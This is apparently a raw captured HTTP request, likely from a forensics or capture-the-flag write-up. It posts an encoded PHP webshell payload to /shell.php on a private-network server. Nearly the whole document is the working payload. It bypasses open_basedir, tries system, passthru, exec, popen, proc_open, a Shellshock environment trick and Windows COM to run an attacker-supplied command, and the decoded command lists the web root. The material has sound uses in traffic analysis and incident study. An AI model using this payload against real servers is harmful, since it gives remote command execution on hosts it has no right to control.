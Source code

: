 ::: details
```plaintext
POST /shell.php HTTP/1.1
Host: 192.168.6.112:8080
Accept-Encoding: gzip, deflate
User-Agent: Opera/9.80 (X11; Linux i686; U; es-ES) Presto/2.8.131 Version/11.11
Content-Type: application/x-www-form-urlencoded
Content-Length: 4840
Connection: close

1=%40ini_set(%22display_errors%22%2C%20%220%22)%3B%40set_time_limit(0)%3B%24opdir%3D%40ini_get(%22open_basedir%22)%3Bif(%24opdir)%20%7B%24ocwd%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3B%24oparr%3Dpreg_split(%22%2F%3B%7C%3A%2F%22%2C%24opdir)%3B%40array_push(%24oparr%2C%24ocwd%2Csys_get_temp_dir())%3Bforeach(%24oparr%20as%20%24item)%20%7Bif(!%40is_writable(%24item))%7Bcontinue%3B%7D%3B%24tmdir%3D%24item.%22%2F.947b1dd388%22%3B%40mkdir(%24tmdir)%3Bif(!%40file_exists(%24tmdir))%7Bcontinue%3B%7D%40chdir(%24tmdir)%3B%40ini_set(%22open_basedir%22%2C%20%22..%22)%3B%24cntarr%3D%40preg_split(%22%2F%5C%5C%5C%5C%7C%5C%2F%2F%22%2C%24tmdir)%3Bfor(%24i%3D0%3B%24i%3Csizeof(%24cntarr)%3B%24i%2B%2B)%7B%40chdir(%22..%22)%3B%7D%3B%40ini_set(%22open_basedir%22%2C%22%2F%22)%3B%40rmdir(%24tmdir)%3Bbreak%3B%7D%3B%7D%3B%3Bfunction%20asenc(%24out)%7Breturn%20%24out%3B%7D%3Bfunction%20asoutput()%7B%24output%3Dob_get_contents()%3Bob_end_clean()%3Becho%20%22b82%22.%22081%22%3Becho%20%40asenc(%24output)%3Becho%20%220b87%22.%227325e%22%3B%7Dob_start()%3Btry%7B%24p%3Dbase64_decode(substr(%24_POST%5B%22pce8f422c382ad%22%5D%2C2))%3B%24s%3Dbase64_decode(substr(%24_POST%5B%22l7aa1832b83fbc%22%5D%2C2))%3B%24envstr%3D%40base64_decode(substr(%24_POST%5B%22uf31f0e8b4315e%22%5D%2C2))%3B%24d%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3B%24c%3Dsubstr(%24d%2C0%2C1)%3D%3D%22%2F%22%3F%22-c%20%5C%22%7B%24s%7D%5C%22%22%3A%22%2Fc%20%5C%22%7B%24s%7D%5C%22%22%3Bif(substr(%24d%2C0%2C1)%3D%3D%22%2F%22)%7B%40putenv(%22PATH%3D%22.getenv(%22PATH%22).%22%3A%2Fusr%2Flocal%2Fsbin%3A%2Fusr%2Flocal%2Fbin%3A%2Fusr%2Fsbin%3A%2Fusr%2Fbin%3A%2Fsbin%3A%2Fbin%22)%3B%7Delse%7B%40putenv(%22PATH%3D%22.getenv(%22PATH%22).%22%3BC%3A%2FWindows%2Fsystem32%3BC%3A%2FWindows%2FSysWOW64%3BC%3A%2FWindows%3BC%3A%2FWindows%2FSystem32%2FWindowsPowerShell%2Fv1.0%2F%3B%22)%3B%7Dif(!empty(%24envstr))%7B%24envarr%3Dexplode(%22%7C%7C%7Casline%7C%7C%7C%22%2C%20%24envstr)%3Bforeach(%24envarr%20as%20%24v)%20%7Bif%20(!empty(%24v))%20%7B%40putenv(str_replace(%22%7C%7C%7Caskey%7C%7C%7C%22%2C%20%22%3D%22%2C%20%24v))%3B%7D%7D%7D%24r%3D%22%7B%24p%7D%20%7B%24c%7D%22%3Bfunction%20fe(%24f)%7B%24d%3Dexplode(%22%2C%22%2C%40ini_get(%22disable_functions%22))%3Bif(empty(%24d))%7B%24d%3Darray()%3B%7Delse%7B%24d%3Darray_map('trim'%2Carray_map('strtolower'%2C%24d))%3B%7Dreturn(function_exists(%24f)%26%26is_callable(%24f)%26%26!in_array(%24f%2C%24d))%3B%7D%3Bfunction%20runshellshock(%24d%2C%20%24c)%20%7Bif%20(substr(%24d%2C%200%2C%201)%20%3D%3D%20%22%2F%22%20%26%26%20fe('putenv')%20%26%26%20(fe('error_log')%20%7C%7C%20fe('mail')))%20%7Bif%20(strstr(readlink(%22%2Fbin%2Fsh%22)%2C%20%22bash%22)%20!%3D%20FALSE)%20%7B%24tmp%20%3D%20tempnam(sys_get_temp_dir()%2C%20'as')%3Bputenv(%22PHP_LOL%3D()%20%7B%20x%3B%20%7D%3B%20%24c%20%3E%24tmp%202%3E%261%22)%3Bif%20(fe('error_log'))%20%7Berror_log(%22a%22%2C%201)%3B%7D%20else%20%7Bmail(%22a%40127.0.0.1%22%2C%20%22%22%2C%20%22%22%2C%20%22-bv%22)%3B%7D%7D%20else%20%7Breturn%20False%3B%7D%24output%20%3D%20%40file_get_contents(%24tmp)%3B%40unlink(%24tmp)%3Bif%20(%24output%20!%3D%20%22%22)%20%7Bprint(%24output)%3Breturn%20True%3B%7D%7Dreturn%20False%3B%7D%3Bfunction%20runcmd(%24c)%7B%24ret%3D0%3B%24d%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3Bif(fe('system'))%7B%40system(%24c%2C%24ret)%3B%7Delseif(fe('passthru'))%7B%40passthru(%24c%2C%24ret)%3B%7Delseif(fe('shell_exec'))%7Bprint(%40shell_exec(%24c))%3B%7Delseif(fe('exec'))%7B%40exec(%24c%2C%24o%2C%24ret)%3Bprint(join(%22%0A%22%2C%24o))%3B%7Delseif(fe('popen'))%7B%24fp%3D%40popen(%24c%2C'r')%3Bwhile(!%40feof(%24fp))%7Bprint(%40fgets(%24fp%2C2048))%3B%7D%40pclose(%24fp)%3B%7Delseif(fe('proc_open'))%7B%24p%20%3D%20%40proc_open(%24c%2C%20array(1%20%3D%3E%20array('pipe'%2C%20'w')%2C%202%20%3D%3E%20array('pipe'%2C%20'w'))%2C%20%24io)%3Bwhile(!%40feof(%24io%5B1%5D))%7Bprint(%40fgets(%24io%5B1%5D%2C2048))%3B%7Dwhile(!%40feof(%24io%5B2%5D))%7Bprint(%40fgets(%24io%5B2%5D%2C2048))%3B%7D%40fclose(%24io%5B1%5D)%3B%40fclose(%24io%5B2%5D)%3B%40proc_close(%24p)%3B%7Delseif(fe('antsystem'))%7B%40antsystem(%24c)%3B%7Delseif(runshellshock(%24d%2C%20%24c))%20%7Breturn%20%24ret%3B%7Delseif(substr(%24d%2C0%2C1)!%3D%22%2F%22%20%26%26%20%40class_exists(%22COM%22))%7B%24w%3Dnew%20COM('WScript.shell')%3B%24e%3D%24w-%3Eexec(%24c)%3B%24so%3D%24e-%3EStdOut()%3B%24ret.%3D%24so-%3EReadAll()%3B%24se%3D%24e-%3EStdErr()%3B%24ret.%3D%24se-%3EReadAll()%3Bprint(%24ret)%3B%7Delse%7B%24ret%20%3D%20127%3B%7Dreturn%20%24ret%3B%7D%3B%24ret%3D%40runcmd(%24r.%22%202%3E%261%22)%3Bprint%20(%24ret!%3D0)%3F%22ret%3D%7B%24ret%7D%22%3A%22%22%3B%3B%7Dcatch(Exception%20%24e)%7Becho%20%22ERROR%3A%2F%2F%22.%24e-%3EgetMessage()%3B%7D%3Basoutput()%3Bdie()%3B&l7aa1832b83fbc=mRY2QgIi92YXIvd3d3L2h0bWwiO2xzO2VjaG8gZjVkNzNiNGJkMTtwd2Q7ZWNobyBmYTRkNWU4ODliZmU%3D&pce8f422c382ad=44L2Jpbi9zaA%3D%3D&uf31f0e8b4315e=Ol
```
:::
